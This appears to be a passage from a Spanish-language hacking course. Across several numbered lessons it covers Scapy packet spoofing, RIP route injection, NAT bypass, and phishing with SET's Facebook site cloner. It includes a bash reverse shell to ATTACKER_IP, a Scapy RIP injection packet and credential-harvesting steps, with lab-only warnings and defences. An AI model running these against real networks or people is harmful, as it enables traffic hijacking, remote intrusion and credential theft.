| 🎯 Objetivo     | Tomar control del tráfico de red              |
| 🧰 Herramientas | `isc-dhcp-server`, `dhcpstarv`, `Wireshark`   |
| 🛡️ Defensa      | DHCP Snooping, VLANs, monitoreo               |

---

[🔼](#índice)

---

## **815. Encapsulado de paquetes con Scapy**

### 🧠 ¿Qué es Scapy?

**Scapy** es una herramienta escrita en Python que permite crear, enviar, capturar, modificar y analizar **paquetes de red**.

🔧 A diferencia de otras herramientas que se usan para analizar (como Wireshark), Scapy te permite **crear tus propios paquetes personalizados**, modificarlos a tu gusto y enviarlos por la red.

---

### 📦 ¿Qué es el encapsulado de paquetes?

Cuando un mensaje viaja por la red, se **encapsula** en varias capas (modelo OSI):

- **Aplicación**: HTTP, DNS, etc.
- **Transporte**: TCP/UDP
- **Red**: IP
- **Enlace**: Ethernet (MAC)

El encapsulado es poner una **capa dentro de otra**. Por ejemplo:

📦 Ethernet(
  📦 IP(
    📦 TCP(
      📦 Datos
    )
  )
)

Con **Scapy**, puedes construir cada capa como quieras. Por ejemplo, puedes simular un paquete TCP desde una IP falsa con una MAC falsa.

---

### 💾 Instalación de Scapy

#### En Kali Linux / Ubuntu:

```bash
sudo apt update
sudo apt install python3-pip
pip install scapy
```

#### Verifica que funcione:

```bash
python3
>>> from scapy.all import *
>>> IP()
```

---

### 🧪 Ejemplos básicos de encapsulado

#### 🔹 1. Crear un paquete IP simple

```python
from scapy.all import *

pkt = IP(dst="8.8.8.8")
pkt.show()
```

📘 Esto crea un paquete IP con destino a `8.8.8.8` (Google DNS).

---

#### 🔹 2. Encapsular IP + ICMP (como un ping)

```python
pkt = IP(dst="8.8.8.8")/ICMP()
pkt.show()
send(pkt)
```

🎯 Esto es equivalente a un `ping 8.8.8.8` pero hecho manualmente.

---

#### 🔹 3. Encapsular Ethernet + IP + TCP

```python
pkt = Ether()/IP(dst="192.168.1.1")/TCP(dport=80)
pkt.show()
sendp(pkt)
```

🔍 `Ether()` es la capa de enlace, `IP()` la de red, y `TCP()` la de transporte.

`sendp()` se usa para enviar a nivel de enlace.

---

### ✅ Laboratorio completo: Enviar un paquete TCP falso

#### 🎯 Objetivo:

Simular un paquete TCP SYN (inicio de conexión) desde una IP falsa.

---

##### 1️⃣ Código completo en Python con Scapy

```python
from scapy.all import *

# Crear un paquete con IP falsa
fake_ip = "10.0.0.99"
target_ip = "192.168.1.1"
target_port = 80

# Crea el paquete IP
ip = IP(src=fake_ip, dst=target_ip)

# Crea el paquete TCP
tcp = TCP(sport=12345, dport=target_port, flags="S", seq=1000)

# Encapsula y muestra el paquete
pkt = ip/tcp
pkt.show()

# Enviar el paquete
send(pkt, verbose=0)

print(f"Paquete TCP SYN enviado desde {fake_ip} a {target_ip}:{target_port}")
```

---

##### 2️⃣ ¿Qué hace este script?

- Envía un paquete TCP **SYN** (inicio de conexión)
- Falsifica la IP de origen (`10.0.0.99`)
- El destino cree que ese host intenta conectarse

🛑 Como la IP es falsa, no habrá respuesta válida (porque la IP falsa no puede recibir paquetes), pero el ataque puede usarse para:

- Hacer un escaneo
- Confundir firewalls
- Atacar con SYN Flood (muchos SYN falsos)

---

### 🧪 Otros usos de Scapy

| Acción                 | Ejemplo                                       |
| ---------------------- | --------------------------------------------- |
| 📡 Sniffing            | `sniff(filter="tcp", count=10)`               |
| 🔄 Modificación        | Modificar campos del paquete como TTL o flags |
| 💥 Ataques             | TCP reset, DNS spoof, ARP spoofing            |
| 🛡️ Pruebas de firewall | Ver qué tipo de tráfico bloquea o permite     |

---

### 🛡️ Precaución

> El envío de paquetes falsos en redes que no te pertenecen puede ser **ilegal o considerado malicioso**. Este conocimiento debe usarse **solo con fines educativos y en entornos controlados o de laboratorio.**

---

### ✅ Conclusión

| Concepto       | Explicación                                             |
| -------------- | ------------------------------------------------------- |
| 📦 Encapsulado | Construir capas de red anidadas: Ethernet → IP → TCP... |
| ⚒️ Herramienta | Scapy (Python)                                          |
| 🔬 Usos        | Análisis, pruebas, ataques, escaneo, simulación         |
| 📁 Instalación | `pip install scapy`                                     |
| 🎯 Ejemplo     | Enviar un TCP SYN falso con IP de origen modificada     |

---

[🔼](#índice)

---

## **816. Ataques a protocolos de enrutamiento**

### 🧠 ¿Qué son los protocolos de enrutamiento?

Los **protocolos de enrutamiento** permiten que los routers compartan información sobre las rutas disponibles para enviar datos entre diferentes redes. Algunos protocolos comunes son:

| Protocolo | Tipo                           | Ejemplo                  |
| --------- | ------------------------------ | ------------------------ |
| RIP       | Interior / vector de distancia | Pequeñas redes           |
| OSPF      | Interior / estado de enlace    | Redes grandes y modernas |
| BGP       | Exterior / políticas complejas | Internet (entre ISP)     |

Estos protocolos **intercambian información** como rutas, métricas, tiempos, etc.

---

### 💣 ¿Qué es un ataque a protocolos de enrutamiento?

Un **ataque a protocolo de enrutamiento** ocurre cuando un atacante **interfiere, modifica o falsifica** la información de enrutamiento que intercambian los routers, con el objetivo de:

- Redirigir tráfico
- Interrumpir la red (DoS)
- Interceptar información (MITM)
- Dividir la red (blackhole)

---

### 🎯 Tipos comunes de ataques

| Ataque                    | Descripción                                                      | Ejemplo                          |
| ------------------------- | ---------------------------------------------------------------- | -------------------------------- |
| **Rogue Router**          | El atacante introduce un router falso en la red                  | Falsifica rutas                  |
| **Route Injection**       | Inserta rutas maliciosas en RIP/OSPF                             | Desvía tráfico                   |
| **Blackhole Routing**     | Se anuncian rutas falsas con mejor métrica y se descarta tráfico | Causa pérdida                    |
| **BGP Hijacking**         | Se anuncia posesión de redes IP que no son del atacante          | Afecta a Internet                |
| **Replay Attack**         | Reenvío de actualizaciones viejas                                | Envenenamiento de tabla de rutas |
| **DoS por actualización** | Saturar con actualizaciones falsas                               | Causa inestabilidad              |

---

### 🧰 Herramientas utilizadas en ataques

| Herramienta          | Uso                                                       |
| -------------------- | --------------------------------------------------------- |
| **Scapy**            | Crear paquetes RIP/OSPF falsos                            |
| **Yersinia**         | Ataques a protocolos de capa 2 y 3 (RIP, OSPF, STP, etc.) |
| **Bettercap**        | MITM avanzado con envenenamiento                          |
| **BGP Hijack Tools** | Más complejas, usadas en ISP o entornos simulados         |

---

#### 💻 Instalación de Yersinia (Kali Linux)

Yersinia es una herramienta muy útil para ataques a protocolos como RIP y OSPF.

##### 🔧 Instalar en Kali Linux:

```bash
sudo apt update
sudo apt install yersinia
```

---

#### 🔬 Laboratorio simple: Ataque a RIP con Yersinia

##### 🎯 Objetivo:

Introducir rutas falsas a través del protocolo RIP usando **Yersinia** en un entorno de laboratorio (por ejemplo, GNS3 o Packet Tracer + Kali Linux).

##### 🧪 Escenario:

- Red que usa **RIP** entre dos routers reales o simulados
- Kali Linux se conecta a la red como un host (atacante)

---

#### 🧱 Paso a paso del ataque

##### 1️⃣ Iniciar Yersinia en modo GUI

```bash
sudo yersinia -G
```

Verás una interfaz gráfica con opciones.

---

##### 2️⃣ Elegir protocolo RIP

En el menú:

`Launch attack` → `RIP` → Opciones disponibles:

- **Send RIP v1/v2 request**
- **Send RIP route injection**

Elige **"Send RIP route injection"**

---

##### 3️⃣ Configurar ruta falsa

- Dirección destino: 192.168.100.0
- Máscara: 255.255.255.0
- Next-hop: tu IP (Kali)
- Métrica: 1 (mejor que la real)

Esto engaña al router para pensar que **la mejor ruta** hacia 192.168.100.0 es por ti.

---

##### 4️⃣ Ejecutar ataque

Haz clic en "Send" para enviar la ruta falsa.

El router víctima agregará esa ruta a su tabla, y **todo el tráfico hacia esa red irá a ti**, el atacante.

---

#### 🔍 Verificación:

En el router víctima, usa comandos como:

```bash
show ip route
```

O en Linux:

```bash
route -n
```

Verás que la ruta fue modificada.

---

### 🔐 ¿Cómo protegerse?

| Defensa                              | Descripción                                         |
| ------------------------------------ | --------------------------------------------------- |
| 🔒 Autenticación en RIP/OSPF         | Usar claves o MD5 para rutas                        |
| 🎯 Filtrado de rutas                 | Validar rutas recibidas                             |
| 🧱 Segmentación de red               | VLANs y ACLs para evitar acceso a routers           |
| 📈 Monitoreo                         | Detectar cambios anómalos de rutas (Zabbix, Nagios) |
| 🚫 Deshabilitar protocolos no usados | Si no usas RIP, ¡desactívalo!                       |

---

### 🧩 Ejemplo completo: Ataque a RIP con Yersinia

#### 📜 Código alternativo con Scapy (más técnico):

```python
from scapy.all import *

rip_packet = IP(dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2, version=2)/RIPEntry(af=2, addr="192.168.100.0", mask="255.255.255.0", metric=1)

send(rip_packet)
```

🔧 Esto crea un **paquete RIP v2** anunciando una red falsa y lo envía a la dirección multicast que usan los routers para RIP.

---

### ✅ Resumen

| Concepto        | Detalles                                         |
| --------------- | ------------------------------------------------ |
| 📦 Qué es       | Ataque que manipula protocolos de enrutamiento   |
| 🎯 Objetivo     | Redirigir, bloquear o capturar tráfico           |
| 🧰 Herramientas | Yersinia, Scapy, Bettercap                       |
| ⚙️ Instalación  | `apt install yersinia`                           |
| 🧪 Laboratorio  | Ruta falsa vía RIP con Kali + router             |
| 🛡️ Protección   | Autenticación, filtrado, monitoreo, segmentación |

---

[🔼](#índice)

---

## **817. Verificación de ataques a protocolos de enrutamiento**

### 🧠 ¿Qué es la verificación de ataques a protocolos de enrutamiento?

Después de realizar un ataque (simulado) a un protocolo de enrutamiento como **RIP, OSPF o BGP**, necesitamos **verificar si el ataque fue exitoso**.

Esto implica revisar:

- Las **tablas de enrutamiento** de los routers o sistemas afectados.
- El **flujo de tráfico** (¿ha sido desviado?).
- La **resolución de rutas** (¿están manipuladas?).
- Los **paquetes capturados** (¿aparecen rutas falsas?).

---

### 🔍 ¿Qué protocolos se pueden atacar y verificar?

| Protocolo | Tipo                   | Ejemplo de ataque                              |
| --------- | ---------------------- | ---------------------------------------------- |
| RIP       | Interior, simple       | Inyección de rutas falsas con métrica baja     |
| OSPF      | Interior, estructurado | Manipulación de LSA (Link-State Advertisement) |
| BGP       | Exterior, global       | BGP hijacking: fingir que controlas una red    |

---

### 🧰 Herramientas para verificar ataques

| Herramienta             | Uso principal                                 |
| ----------------------- | --------------------------------------------- |
| 🔧 `show ip route`      | Ver tabla de rutas en routers (Cisco/Juniper) |
| 🐍 Scapy                | Capturar/leer paquetes                        |
| 🖥️ Wireshark            | Analizar tráfico en detalle                   |
| 🛡️ ip route / netstat   | Ver rutas en Linux                            |
| 🧠 Bettercap / Yersinia | Herramientas de ataque y análisis             |

---

### 🧪 Ejemplo básico: Ataque y verificación en RIP

#### 🎯 Objetivo:

Enviar rutas falsas usando **Yersinia** y verificar si un router o PC las acepta.

---

#### 🔧 Requisitos:

- 1 router o emulador (GNS3 o Packet Tracer)
- 1 máquina Kali Linux (con Yersinia instalado)
- 1 víctima que use **RIP**

---

#### 🔁 Paso 1: Enviar una ruta falsa con Yersinia

1. Abre Yersinia:

```bash
sudo yersinia -G
```

2. Elige el protocolo **RIP**
3. Selecciona **“Send RIP route injection”**
4. Introduce una ruta falsa (ej. `192.168.100.0/24`) con métrica 1
5. Envía el paquete

---

#### 🔁 Paso 2: Verificar desde el router víctima

##### En un router Cisco:

```bash
show ip route
```

🔍 Busca si aparece una entrada tipo:

```
R    192.168.100.0/24 [120/1] via 192.168.1.10, 00:00:22, FastEthernet0/0
```

📌 La letra **R** indica que vino por RIP

📌 La **métrica** indica cuán preferida es (menor = mejor)

---

#### 🔁 Paso 3: Verificar desde un host Linux conectado

1. Ejecuta:

```bash
ip route
```

2. O si está más antigua la distro:

```bash
route -n
```

📍 Verifica si el sistema cree que puede llegar a `192.168.100.0/24` por una nueva ruta.

---

#### 🔁 Paso 4: Verificar con Wireshark

1. Abre Wireshark
2. Filtra con:

```
rip || udp.port == 520
```

3. Observa si aparecen paquetes con rutas no esperadas

🔬 Esto permite confirmar si la víctima **recibió** y **aceptó** la ruta falsa.

---

### 🧪 Ejemplo completo en laboratorio

#### Escenario:

- Router A (192.168.1.1) conectado con Kali Linux (192.168.1.100)
- Kali inyecta ruta falsa a red inexistente `10.10.10.0/24`
- Verificamos si Router A cree que esa red es alcanzable

---

#### 📜 Paso a paso:

##### 1. En Kali (con Scapy):

```python
from scapy.all import *

rip_packet = IP(dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2, version=2)/RIPEntry(af=2, addr="10.10.10.0", mask="255.255.255.0", metric=1)

send(rip_packet)
```

Este comando:

- Envía un anuncio RIP v2
- Con una ruta inventada a `10.10.10.0/24`
- Métrica 1 = muy confiable

---

##### 2. En el Router:

```bash
show ip route
```

Si ves algo así:

```
R    10.10.10.0/24 [120/1] via 192.168.1.100
```

✅ Ataque verificado: la ruta fue aceptada.

---

##### 3. Verifica tráfico real:

Desde otro host, haz ping:

```bash
ping 10.10.10.1
```

⚠️ Puede fallar (la red no existe), pero **el tráfico se enviará igual**, confirmando que el router fue engañado.

---

### 🔐 ¿Cómo prevenir esto?

| Defensa                 | Qué hace                                                    |
| ----------------------- | ----------------------------------------------------------- |
| 🔒 Autenticación de RIP | Evita paquetes falsos (clave MD5 o simple)                  |
| 🎯 Access Lists         | Solo permitir actualizaciones de routers válidos            |
| 🔎 Monitoreo constante  | Usar SNMP, Syslog, o NMS para detectar rutas sospechosas    |
| 📉 Métricas seguras     | Evitar aceptar rutas de métrica sospechosamente baja        |
| 🧱 Separación de red    | No mezclar routers con dispositivos que no deben enviar RIP |

---

### ✅ Resumen final

| Tema            | Detalle                                |
| --------------- | -------------------------------------- |
| 📦 Ataques      | Consisten en insertar rutas falsas     |
| 🔍 Verificación | Tabla de rutas, tráfico, Wireshark     |
| ⚒️ Herramientas | Yersinia, Scapy, Wireshark             |
| 💡 Ejemplo      | Inyección de red falsa `10.10.10.0/24` |
| 🔐 Defensa      | Autenticación, ACL, monitoreo          |

---

[🔼](#índice)

---

## **818. Análisis de NAT**

### 🧠 ¿Qué es NAT?

**NAT (Network Address Translation)** es una técnica que permite **traducir direcciones IP privadas a públicas** (y viceversa) para permitir que múltiples dispositivos dentro de una red local accedan a Internet usando **una sola IP pública**.

---

### 🧱 ¿Por qué se usa NAT?

1. **Escasez de direcciones IPv4 públicas**
2. **Seguridad**: oculta IPs privadas del mundo exterior
3. **Compartir conexión a Internet** con una sola IP pública

---

#### 🔎 Tipos de NAT

| Tipo de NAT            | Descripción                                                              | Ejemplo                               |
| ---------------------- | ------------------------------------------------------------------------ | ------------------------------------- |
| **Static NAT**         | Una IP privada siempre se traduce a la misma IP pública                  | Servidor interno con IP fija          |
| **Dynamic NAT**        | La IP privada se traduce a una IP pública libre de un pool               | Como un hotel o red compartida        |
| **PAT (NAT Overload)** | Muchas IPs privadas comparten **una sola IP pública** usando **puertos** | Red doméstica con solo una IP pública |

🔧 **PAT** es el más común (y el que usamos todos en casa).

---

### 🧰 ¿Cómo se instala NAT?

NAT no se instala como un software: **es una función del router** o del sistema operativo.
Puedes configurarlo en:

- **Routers físicos** (como Cisco, MikroTik)
- **Linux** (usando `iptables`)
- **Windows** (con software adicional)
- **Virtualizadores/laboratorios** como **GNS3, Packet Tracer, VirtualBox**

---

#### 🐧 Instalación de NAT en Linux (modo laboratorio)

Vamos a usar Linux (por ejemplo, Kali o Ubuntu) para simular un router con NAT usando `iptables`.

#### ✅ Requisitos:

- Una interfaz conectada a la LAN (ej: `eth0`)
- Una interfaz conectada a Internet o red externa (ej: `eth1`)

---

##### 🛠️ Paso 1: Activar redireccionamiento IP

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

O permanente:

```bash
echo "net.ipv4.ip_forward=1" | sudo tee -a /etc/sysctl.conf
sudo sysctl -p
```

---

##### 🛠️ Paso 2: Configurar NAT con iptables

```bash
sudo iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
```

🔹 Esto crea un **NAT tipo PAT** (overload), traduciendo todas las IPs internas a la IP pública de `eth1`.

---

##### 🛠️ Paso 3: Permitir tráfico de reenvío

```bash
sudo iptables -A FORWARD -i eth0 -o eth1 -j ACCEPT
sudo iptables -A FORWARD -i eth1 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
```

---

### 👁️‍🗨️ Análisis de NAT: ¿cómo saber si está funcionando?

Puedes analizar NAT en dos niveles:

---

#### 🧪 A. Desde el cliente (host interno)

1. Ver IP privada:

```bash
ip a
```

2. Hacer ping a Internet:

```bash
ping 8.8.8.8
```

3. Ver si la IP pública se muestra en servicios como:

```bash
curl ifconfig.me
```

🔍 Verás tu IP pública aunque tu PC tenga una IP privada.

---

#### 🧪 B. Desde el "router" con NAT

Usa `iptables` para ver traducciones activas:

```bash
sudo iptables -t nat -L -n -v
```

Y para ver conexiones activas (con NAT aplicado):

```bash
sudo conntrack -L
```

(Instala conntrack con: `sudo apt install conntrack`)

---

### 📊 Ver con Wireshark

Captura en la interfaz **interna (eth0)** y **externa (eth1)** y compara:

| Interfaz | Dirección origen                                |
| -------- | ----------------------------------------------- |
| eth0     | IP privada (ej. 192.168.1.10)                   |
| eth1     | IP pública o IP de salida NAT (ej. 200.50.60.1) |

Esto confirma que el NAT está funcionando correctamente.

---

### ✅ Ejemplo completo de laboratorio

#### 🎯 Objetivo:

Simular NAT en un entorno virtual donde una máquina con IP privada navega a Internet a través de otra que hace de "router".

---

#### 🔧 Escenario:

- PC1: IP 192.168.10.10 (cliente)
- PC2: Linux NAT router con 2 interfaces

  - eth0: 192.168.10.1 (LAN)
  - eth1: 10.0.2.15 (salida a Internet / NAT)

- Internet: simulada con VirtualBox NAT o real red externa

---

#### 🧱 Paso a paso:

1. **Configura PC1**:

   - IP: `192.168.10.10`
   - Gateway: `192.168.10.1`

2. **Configura PC2 (router Linux)**:

   - eth0: `192.168.10.1`
   - eth1: IP que tenga salida a Internet (NAT en VirtualBox)

3. **Activa NAT en PC2**:

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
sudo iptables -A FORWARD -i eth0 -o eth1 -j ACCEPT
sudo iptables -A FORWARD -i eth1 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
```

4. **Prueba desde PC1**:

```bash
ping 8.8.8.8
curl ifconfig.me
```

🔍 Deberías ver tráfico saliendo a Internet con **una IP pública**, aunque PC1 tiene una privada.

---

### 🔐 Ventajas del uso de NAT

| Ventaja         | Explicación                                 |
| --------------- | ------------------------------------------- |
| 🧱 Seguridad    | Oculta la red interna del exterior          |
| 🌐 Conectividad | Permite navegar con solo una IP pública     |
| 💵 Ahorro       | No necesitas comprar múltiples IP públicas  |
| 📊 Control      | Puedes hacer port forwarding, logging, etc. |

---

### ❌ Desventajas o limitaciones

| Desventaja                                                      | Explicación                                  |
| --------------------------------------------------------------- | -------------------------------------------- |
| ❌ Problemas con VoIP o juegos                                  | Algunos protocolos no funcionan bien con NAT |
| ❌ No sirve para servicios entrantes sin redirección de puertos |                                              |
| ❌ Complica diagnósticos de red                                 |                                              |

---

### 🧠 Resumen final

| Tema         | Contenido                                               |
| ------------ | ------------------------------------------------------- |
| ¿Qué es NAT? | Traducción de IP privada ↔ pública                      |
| Tipos        | Static, Dynamic, PAT                                    |
| Instalación  | En routers o Linux (iptables)                           |
| Verificación | Con `iptables`, `conntrack`, Wireshark                  |
| Laboratorio  | Cliente con IP privada accede a Internet vía PC con NAT |

---

[🔼](#índice)

---

## **819. Ataque NAT Bypass**

### 🧠 ¿Qué es un Ataque NAT Bypass?

Un **NAT Bypass Attack** (también llamado **NAT traversal**, aunque ese término tiene otros matices) es un tipo de ataque que busca **saltar las restricciones del NAT**, es decir, **comunicarse con dispositivos detrás de un NAT sin tener acceso directo a ellos**.

En condiciones normales, los dispositivos detrás de un NAT **no pueden ser accedidos desde Internet**, a menos que el router tenga configurado un redireccionamiento de puertos (port forwarding). El **ataque NAT Bypass trata de saltarse esa protección.**

---

### 🎯 Objetivo del ataque

- Comunicarte con un dispositivo oculto detrás de NAT **sin autorización**.
- Usar **túneles, protocolos o errores de configuración** para **hacerlo accesible desde fuera**.
- A veces se usa para que un atacante **controle una máquina víctima detrás de NAT**.

---

### 🚨 ¿Qué vulnerabilidades aprovecha?

- Uso indebido de protocolos como **UPnP** (Universal Plug and Play)
- Aplicaciones que **hacen túneles inversos automáticos**
- **Reenvío de puertos habilitado por error**
- **STUN/TURN/ICE** mal configurados
- **Malware** que crea su propio canal hacia el atacante
- Ataques tipo **reverse shell** y **pivoteo**

---

### 🛠️ ¿Cómo se prepara un entorno para analizar un NAT Bypass?

#### 🧪 Laboratorio con VirtualBox (o GNS3)

**Requisitos:**

- Kali Linux (atacante)
- PC víctima detrás de NAT (Ubuntu, Windows o cualquier OS)
- Red NAT simulada (VirtualBox, router virtual, etc.)

---

### 📦 Instalación y preparación del entorno

#### 🔌 Paso 1: Configurar NAT

1. Crea 2 máquinas virtuales:

   - Kali Linux → Conectada a Internet (modo "bridged" o NAT)
   - Ubuntu (víctima) → Solo tiene acceso a Internet vía NAT

2. Verifica que **la víctima no tenga puertos accesibles desde el exterior**.

---

#### 🔧 Paso 2: Instalar herramientas necesarias

##### En Kali (atacante):

```bash
sudo apt update
sudo apt install netcat nmap socat upnp-client
```

##### En víctima (Ubuntu):

```bash
sudo apt install netcat socat curl
```

---

### 💥 Ejemplo completo: Ataque NAT Bypass usando túnel inverso con Netcat

#### 🎯 Objetivo:

Conectarse desde Kali a una shell en la máquina víctima **aunque esté detrás de NAT**, usando una **reverse shell**.

---

##### 👣 Paso 1: En Kali (atacante) – escuchar

Abrimos un puerto para que la víctima se conecte:

```bash
nc -lvnp 4444
```

Esto crea un "listener" que espera conexiones entrantes en el puerto 4444.

---

##### 👣 Paso 2: En la víctima – ejecutar reverse shell

Ejecutamos desde la máquina detrás del NAT:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

Reemplaza `ATTACKER_IP` por la IP pública o local de la Kali Linux.

Este comando le dice a la máquina víctima que se **conecte hacia el atacante**, y redireccione su terminal (shell) a través del canal TCP.

---

### ✅ Resultado

Desde Kali verás aparecer una sesión:

```
connect to [your.ip] from (victim.ip) 12345
```

Ahora tienes una **shell interactiva de la víctima**, aunque estaba **protegida detrás de NAT**.

---

### 🎯 Alternativa: UPnP Attack (puede habilitar NAT bypass)

Algunos routers permiten, mediante **UPnP**, abrir puertos sin autenticar. Puedes probar desde Kali:

```bash
upnpc -l          # Lista puertos abiertos
upnpc -a 192.168.1.10 22 2222 TCP   # Redirige puerto 2222 del router al puerto 22 de la víctima
```

⚠️ Esto depende del router, pero **UPnP mal configurado es una gran puerta trasera**.

---

### 🔍 ¿Cómo detectar un NAT Bypass?

Desde el lado de la red:

- Ver conexiones **salientes extrañas** desde dispositivos internos
- Usar herramientas como:

```bash
netstat -tunap
```

- Revisar registros de router o firewall: ¿algún puerto fue abierto sin permiso?

---

### 🔐 ¿Cómo prevenir ataques NAT Bypass?

| Recomendación           | Explicación                                                   |
| ----------------------- | ------------------------------------------------------------- |
| ❌ Deshabilitar UPnP    | Muchos routers permiten abrir puertos automáticamente         |
| 🔐 Firewall estricto    | Limita conexiones salientes y entrantes                       |
| 🔍 Monitoreo de tráfico | Detectar conexiones inusuales hacia Internet                  |
| ✅ Actualizaciones      | Malware que hace NAT bypass explota vulnerabilidades antiguas |
| 🛑 Filtrar comandos     | No permitir que scripts o apps lancen shells reversas         |

---

### 🧠 Resumen

| Tema              | Detalle                                                               |
| ----------------- | --------------------------------------------------------------------- |
| ¿Qué es?          | Acceder a dispositivos detrás de NAT sin permiso                      |
| ¿Cómo funciona?   | Mediante reverse shells, UPnP, túneles                                |
| ¿Qué se necesita? | Que el dispositivo interno inicie la conexión hacia afuera            |
| ¿Ejemplo?         | Victima conecta por Netcat a Kali, otorgando shell                    |
| ¿Prevención?      | Cortafuegos, bloqueo UPnP, monitoreo de tráfico, educación al usuario |

---

[🔼](#índice)

---

## **820. Introducción a la Ingeniería Social**

### 🧠 ¿Qué es la Ingeniería Social?

La **ingeniería social** es una técnica utilizada por atacantes para **manipular psicológicamente a las personas** con el objetivo de que revelen información confidencial o realicen acciones inseguras.

🔐 En lugar de atacar computadoras directamente, la ingeniería social **ataca a las personas**.

---

### 🎯 Objetivo principal

Engañar a alguien para obtener:

- Contraseñas
- Acceso físico o remoto
- Archivos confidenciales
- Control sobre sistemas

---

### 🧱 ¿Cómo funciona?

El atacante estudia a su víctima y busca **explotar la confianza, el miedo o la curiosidad**.

---

### 🎭 Tipos comunes de ataques de ingeniería social

| Tipo de Ataque | Explicación                                                          | Ejemplo                                             |
| -------------- | -------------------------------------------------------------------- | --------------------------------------------------- |
| **Phishing**   | Enviar correos falsos para que la víctima haga clic o entregue datos | "Tu cuenta fue bloqueada, haz clic aquí"            |
| **Vishing**    | Llamadas falsas por teléfono                                         | Llamada diciendo ser del banco                      |
| **Smishing**   | Mensajes de texto falsos                                             | SMS: “tu paquete está en camino, verifica aquí”     |
| **Pretexting** | Inventar una historia para obtener información                       | "Soy del soporte técnico, necesito tu contraseña"   |
| **Baiting**    | Usar una trampa (como un USB infectado)                              | Dejar USB marcado como “nómina 2025” en una oficina |
| **Tailgating** | Entrar detrás de alguien a una zona restringida                      | Fingir haber olvidado la tarjeta de acceso          |

---

### 🔥 Ejemplo fácil de entender

Imagina que eres un recepcionista en una empresa. Un hombre vestido con uniforme de mensajero llega y dice:

> “Hola, tengo un paquete para el jefe de sistemas. ¿Puedo pasar un momento para dejarlo en su oficina?”

Tú, sin confirmar su identidad, lo dejas pasar.
📦 En realidad, **era un atacante** que quería colocar un dispositivo o buscar información confidencial.

---

#### 🛠️ ¿Cómo se "instala" o prepara un entorno para aprender ingeniería social?

La ingeniería social **no se instala como software**, pero puedes practicarla de forma **ética y controlada** con:

#### 🔧 Herramientas y entornos:

| Herramienta                       | Función                                                                                 |
| --------------------------------- | --------------------------------------------------------------------------------------- |
| **SET (Social-Engineer Toolkit)** | Herramienta para crear ataques como páginas falsas, USB infectados, correos de phishing |
| **Gophish**                       | Plataforma de simulación de campañas de phishing                                        |
| **Kali Linux**                    | Incluye herramientas como SET                                                           |
| **VirtualBox** o **VMware**       | Crear un entorno seguro para probar                                                     |

---

### 🧰 Instalación de SET (Social Engineer Toolkit)

#### Paso 1: Instalar SET en Kali Linux (ya viene preinstalado en Kali normalmente)

Si no lo tienes:

```bash
sudo apt update
sudo apt install set
```

O desde GitHub:

```bash
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
sudo python3 setup.py install
```

#### Paso 2: Ejecutar SET

```bash
sudo setoolkit
```

---

### ⚙️ Opciones principales de SET

Cuando inicias SET, verás un menú como:

```
1) Social-Engineering Attacks
2) Penetration Testing
...
```

Selecciona:

```
1) Social-Engineering Attacks
1) Spear-Phishing Attack Vectors
2) Website Attack Vectors
...
```

---

### 🧪 Ejemplo práctico completo (entorno de laboratorio)

#### 🎯 Simular un ataque de phishing en entorno controlado

##### Objetivo:

Engañar a una víctima simulando una página de Facebook falsa y capturar sus credenciales (todo en red local, con fines educativos).

---

#### 👣 Paso a paso:

##### ✅ Paso 1: Abrir SET

```bash
sudo setoolkit
```

Selecciona:

```
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
2) Site Cloner
```

SET te pedirá:

- IP de tu máquina atacante (ej. 192.168.1.100)
- URL a clonar: escribe `https://www.facebook.com`

El sistema ahora crea un servidor web falso con la página clonada.

---

##### ✅ Paso 2: Enviar el enlace falso a la víctima

En un escenario real, podrías usar un correo falso o mensaje, pero aquí puedes decir:

> “Estamos haciendo una encuesta interna sobre redes sociales. Ingrese a: [http://192.168.1.100”](http://192.168.1.100”)

---

##### ✅ Paso 3: La víctima entra y pone sus credenciales

- SET captura el usuario y contraseña y los muestra en la consola del atacante.

---

#### 🛑 Importante

Esto **debe hacerse solo con fines educativos y en redes de laboratorio o pruebas**. Nunca en entornos reales o con víctimas reales sin consentimiento.

---

### 🧠 ¿Cómo prevenir ataques de ingeniería social?

| Medida                                  | Explicación                                                                   |
| --------------------------------------- | ----------------------------------------------------------------------------- |
| 🔐 Capacitación                         | Enseñar a los empleados a detectar correos falsos, llamadas sospechosas, etc. |
| 🔍 Verificación                         | Nunca compartir contraseñas sin validar la identidad del solicitante          |
| ⚠️ No hacer clic en enlaces sospechosos | Ni abrir archivos de remitentes desconocidos                                  |
| 🔐 Doble autenticación                  | Aunque se robe la contraseña, se bloquea el acceso                            |
| 🧪 Simulaciones                         | Hacer pruebas internas de phishing para educar al personal                    |

---

### 🎓 Resumen final

| Tema         | Explicación                                                     |
| ------------ | --------------------------------------------------------------- |
| ¿Qué es?     | Técnica que manipula personas para obtener información o acceso |
| Métodos      | Phishing, vishing, pretexting, baiting, tailgating              |
| Herramientas | SET, Gophish, Kali Linux                                        |
| Ejemplo      | Clonar Facebook, capturar contraseñas en laboratorio            |
| Prevención   | Capacitación + seguridad técnica                                |

---

[🔼](#índice)

---

## **821. Credential Harvesting**

### 🧠 ¿Qué es Credential Harvesting?

**Credential Harvesting**, o **recolección de credenciales**, es una técnica utilizada por atacantes para **capturar nombres de usuario y contraseñas** sin que la víctima se dé cuenta.

🧪 Generalmente, esto se hace mediante:

- **Páginas falsas** (clonadas) como Facebook, Gmail, etc.
- Formularios falsos enviados por phishing
- Malware que graba lo que el usuario escribe

---

### 🔐 ¿Para qué se usa?

Los atacantes usan las credenciales para:

- Acceder a cuentas personales o empresariales
- Robar dinero o información confidencial
- Escalar privilegios dentro de una red
- Lanzar ataques posteriores (como ransomware)

---

### 🎭 Técnicas comunes de Credential Harvesting

| Técnica                        | Descripción                                        | Ejemplo                                              |
| ------------------------------ | -------------------------------------------------- | ---------------------------------------------------- |
| **Phishing**                   | Correo falso que lleva a página falsa              | “Verifica tu cuenta de correo aquí”                  |
